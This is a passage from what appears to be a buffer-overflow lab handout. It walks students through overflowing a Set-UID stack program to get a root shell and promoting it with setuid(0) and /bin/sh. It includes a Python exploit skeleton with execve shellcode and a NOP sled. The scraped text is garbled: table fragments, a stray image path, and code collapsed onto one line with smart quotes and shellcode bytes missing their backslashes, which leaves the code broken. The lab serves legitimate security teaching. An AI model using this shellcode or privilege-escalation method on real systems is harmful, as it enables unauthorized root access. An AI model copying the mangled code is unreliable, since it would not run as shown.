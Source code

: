   </tr>

 </tbody>

</table>

After you finish the above program, compile and run it. This will generate the contents for badfile. Then run the vulnerable program stack. If your exploit is implemented correctly, you should be able to get a root shell:

Important: Please compile your vulnerable program first. Please note that the program exploit.c, which generates the badfile, can be compiled with the default StackGuard protection enabled. This is because we are not going to overflow the buffer in this program. We will be overflowing the buffer in stack.c, which is compiled with the StackGuard protection disabled.

$ gcc -o exploit exploit.c

$./exploit                                         // create the badfile

$./stack  // launch the attack by running the vulnerable program # &lt;—- Bingo! You’ve got a root shell!

It should be noted that although you have obtained the “#” prompt, your real user id is still yourself (the effective user id is now root). You can check this by typing the following:

# id

uid=(500) euid=0(root)

Many commands will behave differently if they are executed as Set-UIDroot processes, instead of just as root processes, because they recognize that the real user id is not root. To solve this problem, you can run the following program to turn the real user id to root. This way, you will have a real root process, which is more powerful.

void main() { setuid(0); system(“/bin/sh”);

}

Python Version. For students who are more familiar with Python than C, we have provided a Python version of the above C code. The program is called exploit.py, which can be downloaded from the lab’s website. Students need to replace some of the values in the code with the correct ones.

<table width="624">

 <tbody>

  <tr>

   <td width="624">#!/usr/bin/python3import sysshellcode= (“x31xc0”                                         # xorl                %eax,%eax“x50”                                                  # pushl           %eax“x68″”//sh”                                     # pushl              $0x68732f2f“x68″”/bin”                                     # pushl             $0x6e69622f“x89xe3”                                        # movl               %esp,%ebx“x50”                                                  # pushl           %eax“x53”                                                  # pushl           %ebx“x89xe1”                                        # movl               %esp,%ecx“x99”                                                 # cdq“xb0x0b”                                       # movb               $0x0b,%al“xcdx80”                                        # int                 $0x80“x00”).encode(’latin-1’)# Fill the content with NOP’s content = bytearray(0x90 for i in range(517))# Put the shellcode at the end start = 517 – len(shellcode) content[start:] = shellcode######################################################################### ret       = 0xAABBCcDD        # replace 0xAABBCCDD with the correct value offset = 0           # replace 0 with the correct value# Fill the return address field with the address of the shellcode content[offset:offset + 4] = (ret).to_bytes(4,byteorder=’little’)########################################################################## Write the content to badfile with open(’badfile’, ’wb’) as f:f.write(content)</td>
